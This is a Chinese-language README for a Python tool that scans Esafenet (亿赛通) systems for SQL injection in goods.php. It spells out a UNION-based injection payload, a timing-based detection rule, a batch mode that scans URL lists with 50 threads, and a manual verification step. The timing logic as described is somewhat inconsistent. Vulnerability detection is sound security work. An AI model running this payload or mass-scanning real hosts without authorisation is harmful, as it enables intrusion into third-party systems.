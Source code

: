 亿赛通 SQL 注入漏洞检测工具 README
1. 工具简介
本工具用于检测亿赛通相关系统中存在的 SQL 注入漏洞，通过构造特定的 SQL 注入 Payload，向目标 URL 发送请求并分析响应结果，快速识别存在漏洞的目标。工具支持单 URL 检测和批量 URL 检测，采用多线程技术提升批量检测效率，同时自动忽略 SSL 证书验证警告，适用于多种网络环境。
2. 漏洞原理
目标系统的goods.php接口在处理id参数时，未对用户输入进行严格过滤和参数化查询，导致存在 SQL 注入漏洞。
工具通过以下逻辑判断漏洞是否存在：

向目标 URL 发送正常请求（无 Payload），记录响应状态码和请求耗时；
向目标 URL 拼接注入 Payload（/goods.php?id=%27+UNION+ALL+SELECT+NULL,NULL,NULL,md5(1),NULL,...--+-），发送恶意请求；
对比两次请求的耗时（若恶意请求耗时在 5 秒及以上，且与正常请求耗时差≤5 秒），同时验证目标可访问（状态码 200），则判定存在 SQL 注入漏洞。
3. 环境依赖
依赖项	版本要求	说明
Python	3.6+	工具基于 Python 3 开发，不兼容 Python 2
requests	2.20.0+	用于发送 HTTP/HTTPS 请求
urllib3	1.24.0+	处理 HTTPS 证书警告（工具已禁用不安全证书警告）
multiprocessing.dummy	内置模块	提供多线程支持，提升批量检测效率
4. 安装步骤
安装 Python 3
从Python 官方网站下载并安装对应系统（Windows/macOS/Linux）的 Python 3.6 及以上版本，安装时需勾选 “Add Python to PATH”（Windows）。
验证 Python 环境
打开终端 / 命令提示符，执行以下命令，确认 Python 版本符合要求：
bash
python --version  # Windows
# 或
python3 --version  # macOS/Linux

安装依赖库
通过pip命令安装requests和urllib3（若系统中同时存在 Python 2 和 Python 3，需使用pip3）：
bash
pip install requests urllib3  # Windows
# 或
pip3 install requests urllib3  # macOS/Linux

下载工具文件
将工具脚本（如yisaitong_sql_injection.py）和本README.md文件保存到同一目录下。
5. 使用说明
5.1 命令格式
工具通过命令行参数指定检测模式（单 URL / 批量 URL），基本命令格式如下：

bash
python yisaitong_sql_injection.py [参数]

（macOS/Linux 系统需将python替换为python3，下同）
5.2 参数说明
参数	简写	作用	示例
--url	-u	单 URL 检测，指定单个目标 URL	-u https://example.com
--file	-f	批量检测，指定包含多个 URL 的文本文件路径	-f url_list.txt
--help	-h	查看工具帮助信息，显示参数说明	-h
5.3 操作示例
示例 1：单 URL 检测
检测单个目标 URL 是否存在漏洞：

bash
python yisaitong_sql_injection.py -u https://target.com

执行后，工具会直接在终端输出检测结果（存在漏洞 / 不存在漏洞 / 目标异常）。
示例 2：批量 URL 检测
准备 URL 列表文件
创建文本文件（如url_list.txt），每行填写一个目标 URL（需包含http://或https://），格式如下：
plaintext
https://target1.com
http://target2.com:8080
https://target3.com/path

执行批量检测
指定 URL 列表文件路径，工具将以 50 个线程并发检测：
bash
python yisaitong_sql_injection.py -f url_list.txt


检测过程中，终端会实时输出每个 URL 的检测结果；
检测完成后，存在漏洞的 URL 会自动保存到当前目录下的result1.txt文件中（若文件不存在则自动创建，若已存在则追加内容）。
示例 3：查看帮助信息
若忘记参数用法，可执行以下命令查看帮助：

bash
python yisaitong_sql_injection.py -h

输出内容如下：

plaintext
usage: yisaitong_sql_injection.py [-h] [-u URL] [-f FILE]

亿赛通 接口存在 SQL注入漏洞

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     place input like (e.g. https://example.com)
  -f FILE, --file FILE  place input your file path (e.g. url_list.txt)
6. 结果说明
输出标识	含义	后续建议
[+] [URL] 存在sql注入漏洞	目标确认存在 SQL 注入漏洞	立即停止该系统对外访问，联系开发团队修复漏洞
[-] 该[URL]不存在sql注入漏洞	目标未检测到 SQL 注入漏洞	定期复测，同时排查其他类型漏洞（如 XSS、命令注入）
[*] 该[URL]存在问题,请手工测试	目标响应状态码非 200（如 404、500）	检查 URL 是否正确、目标是否可访问，建议手工访问 URL 验证
无输出	目标请求超时 / 网络不可达	检查目标网络连通性（如 ping、telnet），确认 URL 格式正确
7. 注意事项
合法性声明
本工具仅用于合法授权的渗透测试或漏洞检测，禁止用于未经授权的第三方系统。使用前需确保已获得目标系统所有者的书面授权，违规使用导致的法律责任由使用者自行承担。
性能影响
批量检测默认使用 50 个线程，若目标数量过多（如 > 1000 个），可能导致本地网络带宽占用过高或目标服务器压力过大。建议根据本地网络环境调整线程数（修改代码中Pool(50)的数值，如Pool(20)）。
SSL 证书问题
工具已通过urllib3.disable_warnings()禁用 SSL 证书验证警告，若目标使用自签名证书，仍可正常检测，但存在一定安全风险（如中间人攻击），建议在可信网络环境中使用。
误报 / 漏报可能性
漏洞判断依赖请求耗时对比，若目标服务器响应不稳定（如耗时波动大），可能导致误报或漏报。对于疑似结果，建议手工构造 Payload 验证（如直接访问[URL]/goods.php?id=' UNION ALL SELECT NULL,NULL,NULL,md5(1),NULL,...--+-，查看响应中是否包含c4ca4238a0b923820dcc509a6f75849b（md5 (1) 的结果））。
8. 故障排查
问题现象	可能原因	解决方案
执行命令提示 “ModuleNotFoundError: No module named 'requests'”	未安装 requests 库	执行pip install requests（Windows）或pip3 install requests（macOS/Linux）
批量检测时无结果输出	1. URL 列表文件路径错误；2. 文件中 URL 格式错误（无 http/https）；3. 目标全部不可达	1. 确认文件路径正确（如使用绝对路径-f C:\url_list.txt）；2. 检查 URL 是否包含http://或https://；3. 手工访问 1-2 个 URL 确认可访问
单 URL 检测提示 “[*] 该 URL 存在问题”	1. URL 错误（如拼写错误、端口错误）；2. 目标服务器拒绝访问（如 IP 黑名单）	1. 核对 URL 是否正确；2. 使用浏览器访问该 URL，确认是否能正常打开
多线程检测时程序崩溃	线程数过高，超出本地系统资源限制	减少线程数（修改Pool(50)为Pool(10)或Pool(20)），重新执行

